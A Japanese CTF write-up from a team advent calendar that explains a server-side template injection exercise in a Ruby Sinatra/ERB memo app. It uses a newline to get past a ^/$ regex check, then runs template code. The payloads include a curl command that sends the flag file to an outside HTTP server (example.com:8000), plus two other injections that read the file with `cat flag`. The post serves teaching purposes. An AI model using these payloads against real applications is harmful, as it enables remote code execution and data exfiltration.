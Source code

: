 ```yaml
---
layout: post
title: Harekaze 内で出題した SSTI 問の解説
categories: [ctf, harekaze]
date: 2017-12-08 23:00:00 +0900
---
```


これは [Harekaze Advent Calendar 2017](https://adventar.org/calendars/2292) の 8 日目の記事です。

---

12 月 4 日から 8 日にかけて、チーム Harekaze 内で Server-Side Template Injection (SSTI) の解説資料 (内容は攻撃手法やその対策など) を公開し、このまとめとして、作成した演習問題をチームメンバーに解いてもらうという取り組みを行いました。

ということで、出題した問題とその解説を公開します。

## 問題文

演習問題として、演習環境の 4567 番ポートでとある言語とテンプレートエンジンを使って作られたサービスが動いています。

`/source` にアクセスすることでソースコードが見られるので、どこで、どうすれば SSTI ができるか考えてみてください。

また、SSTI を利用して `flag` というファイルの内容を取得してみてください。

[exercise.tar.gz](../files/20171204-harekaze-ssti-problem/exercise.tar.gz)

## write-up

まず `/source` にアクセスしてソースコードを取得します。

```ruby
require 'sinatra'
require 'logger'

set :public_folder, File.dirname(__FILE__) + '/static'
enable :sessions

logger = Logger.new('sinatra.log')

def is_valid(s)
  return /^[0-9A-Za-z]+$/ =~ s
end

get '/' do
  erb :index
end

post '/add' do
  unless session[:memos]
    session[:memos] = []
  end
  unless is_valid(params[:memo])
    redirect to('/')
  end
  session[:memos].push params[:memo]
  logger.info erb("memo ('#{params[:memo]}') added", :layout => false)
  redirect to('/')
end

get '/clear' do
  if params[:id]
    id = params[:id].to_i
    logger.info erb("memo ('#{session[:memos][id]}') deleted", :layout => false)
    session[:memos].slice! id
  else
    session.clear
  end
  redirect to('/')
end

get '/source' do
  File.open(__FILE__, 'r').read
end
```

`do` `end` のような構文から Ruby で書かれていること、`require 'sinatra'` から [Sinatra](http://sinatrarb.com) というライブラリを使っていること、`erb :index` から [erb](https://docs.ruby-lang.org/ja/latest/class/ERB.html) をテンプレートエンジンに使っていることが分かります。

どこかでユーザ入力がそのまま `erb` に渡っていないか探してみると、以下のような箇所が見つかりました。

```ruby
post '/add' do
  unless session[:memos]
    session[:memos] = []
  end
  unless is_valid(params[:memo])
    redirect to('/')
  end
  session[:memos].push params[:memo]
  logger.info erb("memo ('#{params[:memo]}') added", :layout => false)
  redirect to('/')
end
```

メモの追加処理で、追加されるメモの内容をそのまま `erb` に渡し、その返り値をログとして出力しています。SSTI ができそうです。

`is_valid` でメモの内容を検証しているようなので、どのような処理が行われているか確認します。

```ruby
def is_valid(s)
  return /^[0-9A-Za-z]+$/ =~ s
end
```

正規表現を使って、英数字だけで構成されているか検証しているらしいと分かりました。文字列の先頭と末尾を示すために `^` と `$` を使っていますが、Ruby では `^` は**行頭**に、`$` は**行末**にマッチします。(参照: [正規表現によるバリデーションでは ^ と $ ではなく \A と \z を使おう \| 徳丸浩の日記](https://blog.tokumaru.org/2014/03/z.html))

これを利用して、`curl -v http://192.168.99.100:4567/add -d "memo=1%0Apwned!"` のように改行文字を使うと、本来は入力できない文字をメモとして追加することができました。

erb の文法を確認すると、`<% ... %>` は中の式を実行し、`<%= ... %>` は中の式を評価した結果を出力することが分かりました。これで任意のコードを実行する方法が分かりました。

しかし、erb で処理した結果はユーザからは読めない場所 (`sinatra.log`) に書き込まれるため、なにか別の方法で得る必要があります。

今回は外向きの通信が許可されているので、[net/http](https://docs.ruby-lang.org/ja/latest/library/net=2fhttp.html) を使って、あらかじめ用意した HTTP サーバにアクセスさせます。

`require 'net/http'; Net::HTTP.get_print 'example.com', File.read('flag'), 8000` で `http://example.com:8000/(flag の内容)` にアクセスが来るはずです。

```
$ curl -v http://192.168.99.100:4567/add -d "memo=1%0A%3C%25%3D%20require%20'net%2Fhttp'%3B%20Net%3A%3AHTTP.get_print%20'example.com'%2C%20File.read('flag')%2C%208000%20%25%3E"
```

```
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
... - - [04/Dec/2017 17:35:22] code 404, message File not found
... - - [04/Dec/2017 17:35:22] "GET flag{<ruby>\xe5\x92\x8c\xe4\xbd\x8f<rt>\xe3\x82\x8f\xe3\x81\x9a\xe3\x81\xbf</rt>\xe5\xaa\x9b\xe8\x90\x8c<rt>\xe3\x81\xb2\xe3\x82\x81</rt></ruby>} HTTP/1.1" 404 -
```

フラグが得られました。

```
flag{<ruby>和住<rt>わずみ</rt>媛萌<rt>ひめ</rt></ruby>}
```

---

## 他の方の解法

以上が私の解法でした。これ以外の解法として、[@megumish](https://twitter.com/megumish) さんに教えていただいたものを 2 つ紹介します。

### 1

```
<% abort `cat flag` %>
```

[`Kernel.#abort`](https://docs.ruby-lang.org/ja/latest/method/Kernel/m/abort.html) は引数として文字列を与えると、それをエラーメッセージとして出力して終了するメソッドです。

実際に試してみましょう。

```
$ curl http://192.168.99.100:4567/add -d "memo=A%0a%3C%25%20abort%20%60cat%20flag%60%20%25%3E"
SystemExit: flag{<ruby>和住<rt>わずみ</rt>媛萌<rt>ひめ</rt></ruby>}
        /app/app.rb:26:in `abort'
        /app/app.rb:26:in `block in singleton class'
        /app/app.rb:18:in `instance_eval'
        /app/app.rb:18:in `singleton class'
        /app/app.rb:15:in `__tilt_47037131226660'
...
```

エラーメッセージとして `flag` の内容が表示されました。

ちなみに、`Dockerfile` の最終行を以下のように変更すると例外が発生しても詳細な情報が出力されなくなり、この解法では一発でフラグが得られなくなります。

```diff
-CMD ["bundle", "exec", "rackup", "-p", "4567", "-o", "0.0.0.0"]
+CMD ["bundle", "exec", "rackup", "-p", "4567", "-o", "0.0.0.0", "-E", "production"]
```

```
$ curl http://192.168.99.100:4567/add -d "memo=A%0a%3C%25%20abort%20%60cat%20flag%60%20%25%3E"
<h1>Internal Server Error</h1>
```

### 2

```
<% session[:memos].push `cat flag` %>
```

当然ながら `session` にもアクセスできるので、メモが配列として保存されている `session[:memos]` に `flag` の内容を追加することで読み出すことができます。

実際に試してみましょう。

```
$ curl http://192.168.99.100:4567/add -c "cookie.txt" -d "memo=A%0a%3C%25%20session%5B%3Amemos%5D.push%20%60cat%20flag%60%20%25%3E"
$ curl http://192.168.99.100:4567 -b "cookie.txt"
<!doctype html>
<html>
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet" href="/style.css">
    <title>SSTI exercise</title>
  </head>
  <body>
    <main>
      <h1>SSTI exercise</h1>
      <nav>
        <a href="/clear">clear</a> / <a href="/source">source</a>
      </nav>
            <h2>Memo</h2>
      <form action="/add" method="POST">
        <input type="text" name="memo" id="memo" autofocus>
        <input type="submit">
      </form>
      <h2>History</h2>
      <ul>
      
        
          <li>A
<% session[:memos].push `cat flag` %> <a href="clear?id=0">del</a></li>
        
          <li>flag{<ruby>和住<rt>わずみ</rt>媛萌<rt>ひめ</rt></ruby>} <a href="clear?id=1">del</a></li>
        
      
      </ul>
    </main>
  </body>
</html>
```

`flag` の内容がメモとして表示されました。